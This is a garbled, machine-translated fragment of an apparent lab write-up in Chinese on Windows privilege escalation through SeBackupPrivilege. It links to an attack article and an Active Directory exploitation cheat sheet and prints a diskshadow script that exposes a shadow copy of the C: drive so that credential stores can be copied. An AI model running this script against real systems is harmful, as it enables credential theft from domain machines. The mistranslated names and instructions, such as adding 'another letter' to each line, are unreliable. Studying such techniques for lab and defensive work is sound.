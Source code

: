 whoami/全部

![](img/522f187e3a95db01526242e4a53fbd5a.png)

特权

在 PEH 的 TCM 安全健康-亚当斯没有提到这种特权是脆弱的。让我们看看。

[](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) [## Windows 特权和特权

### 获取 Windows 域控制器计算机中的 NTLM 哈希

medium.com](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) 

这是一篇很棒的文章，如果你想看视频，康达有一个很棒的视频。

现在，我们需要创建一个脚本来启动备份过程。

[](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group) [## GitHub-S1 CBK 0y 1337/Active-Directory-Exploitation-Cheat-Sheet:一个包含常见…

### 本备忘单包含 Windows Active Directory 的常见枚举和攻击方法。这份备忘单是…

github.com](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group) 

如何创建脚本的指南。

```
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive

create

expose %mydrive% w:
end backup
```

你可能需要在脚本的每一行末尾添加另一个字母。

![](img/5b7007b3d09480bbc0a3c03ffb1d0032.png)
